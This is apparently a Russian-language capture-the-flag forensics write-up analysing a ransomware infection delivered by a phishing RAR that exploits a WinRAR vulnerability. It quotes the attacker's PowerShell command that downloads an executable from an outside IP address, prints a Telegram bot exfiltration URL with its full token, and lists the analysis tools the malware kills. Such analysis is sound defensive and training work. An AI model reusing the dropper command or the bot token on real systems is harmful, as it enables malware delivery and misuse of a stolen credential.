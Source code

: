 ## Windows forensics
В логах `event viewer` можно найти примерно момент времени, в который была развернута малварь, с помощью данной команды `powershell`:
```powershell
powershell -command ($drop=Join-Path -Path $env:APPDATA -ChildPath Rjomba.exe);
(New-Object System.Net.WebClient).DownloadFile('http://95.169.192.220:8080/prikol.exe', $drop); 
```
Видно, что команда скачивает файл `prikol.exe` в `c:\Users\\<наш пользователь>\AppData\Roaming\Rjomba.exe`
Примерно в то же время можно заметить какие-то события от `Outlook`, так что мы посмотрели его файлы. Посмотрев в типичное место для файлов `Outlook`, мы нашли файл `company_worker123@rambler.ru.ost` - незашифрованный файл с письмами пользователя. Проанализировав его, мы нашли письмо с вложением - `classic.rar`.  Впоследствии, в файле был найден вредоносный код, который эксплуатировал уязвимость, чтобы исполниться.

Был сделан дамп памяти - с помощью отладочного функционала `VirtualBox` сдампили физическиую память всей системы, далее с помощью `volatility3` достали оттуда дамп памяти процесса `Rjomba.exe`.  Команды для `volatility`:
```bash
python vol.py -f ~/Downloads/dump.dmp windows.pslist # узнать pid вируса
python vol.py -o . -f ~/Downloads/dump.dmp windows.memmap \
        --pid 4168 --dump # получить дамп памяти процесса вируса из дампа всей памяти
```

---

### 1. Каким образом вредоносное ПО попало на компьютер пользователя?
Пользователь открыл фишинговое письмо и распаковал архив, при распаковке которого запустилась команда выше
### 2. С какого сервера была скачана полезная нагрузка?
http://95.169.192.220:8080 - понятно из команды:
```powershell
powershell -command ($drop=Join-Path -Path $env:APPDATA -ChildPath Rjomba.exe);
(New-Object System.Net.WebClient).DownloadFile('http://95.169.192.220:8080/prikol.exe', $drop); 
```
### 3. С помощью какой уязвимости данное ВПО запустилось? В каком ПО?
Вот, что было в архиве:
```
> unpacked
├── > 'TOP_SECRET.pdf '
└── # 'TOP_SECRET.pdf .cmd'
```
Этот архив эксплуатирует уязвимость `CVE-2023-38831` в `WinRar`, чтобы исполнить `.cmd` файл, в котором и была команда, найденная в логах.
### 4. Какие методы противодействия отладке использует программа?
Проанализировав используемые функции API windows и дкомпилированный код файла `Rjomba.exe` можно сделать следующие выводы:
-   Использует `IsDebuggerPresent` и `CheckRemoteDebuggerPresent` - встроенные функции библиотеки windows, которыя проверяют, отлаживается ли программа. Если программа отлаживается, файлы не шифруются, а процессы отладчиков убиваются с помощью `TerminateProcess`
-   Обфусцированные строчки
-   Проверяет, стоят ли в нем брейкпоинты
-   убивает все процессы, которые считает дебаггером. (`Taskmgr.exe`, `procexp.exe`, `procexp64a.exe`, `AnVir.exe`, `anvir64.exe`, `dumpcap.exe`, `ollydbg.exe`, `tcpview.exe`, `autoruns.exe`, `autorunsc.exe`, `filemon.exe`, `procmon.exe`, `regmon.exe`, `Wireshark.exe` и другие, нашли в дампе памяти)
### 5. Какой алгоритм шифрования используется при шифровании данных?
Посмотрев названия функций `prikol.exe` в `ghidra`, можно заметить названия вроде `CBC_Encryption`, что означает что алгоритм - `AES` в режиме `CBC`. Длина ключа - 256 бит, мы смогли понять это, так как шифровали тексты разных размеров и смотрели на длину итогового шифртекста.
### 6. Какой ключ шифрования используется при шифровании данных?
Далее с помощью `strings` и `grep -E` нашли все строки, длина которых совпадала с предполагаемой длиной ключа. Осмысленными из них были лишь две:
 
 - `amogusamogusamogusamogusamogusam`
 - `sugomasugomasugomasugomasugomasu`
Далее мы подошли к жюри и успешно сдали эти строчки.
### 7. Куда злоумышленник отсылает собранные данные? Каким образом  аутентифицируется на endpoint?
Поискав в дампе памяти системы можно было найти url - `https://api.telegram.org/bot7029575943:AAFNYmmW_QqqMcaHZ-DFRn3M05DptExeAGE`  - значит, что злоумешленник отправлял данные боту в `telegram`, а аутентифицировался с помощью ключа `7029575943:AAFNYmmW_QqqMcaHZ-DFRn3M05DptExeAGE`
### 8. Каково содержимое расшифрованного файла pass.txt на рабочем столе?
Так как `AES` использовался в режиме `CBC`, то чтобы расшифровать его, нам нужно было получить секретный initial vector. Поискав в дампе памяти и попробовав оттуда разные строки, было обнаружено что строка `abababababababab` выдавала пароль, который принимали жюри.
